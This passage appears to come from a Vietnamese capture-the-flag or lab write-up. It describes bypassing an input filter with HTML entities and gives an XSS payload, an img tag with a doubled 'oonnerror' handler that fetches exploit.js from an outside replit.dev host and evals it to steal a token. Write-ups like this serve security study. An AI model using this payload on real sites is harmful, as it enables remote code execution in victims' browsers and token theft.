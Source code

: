 ![image](./images/image52.png)

Sau một hồi tìm kiếm thì mình có thể bypass bằng cách sử dụng HTML Entities 

https://www.toptal.com/designers/htmlarrows/

![image](./images/image53.png)

Từ đó ta có payload sau để lấy token

```html
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=&gt;r.text()).then(data=&gt;eval(data))" /
```
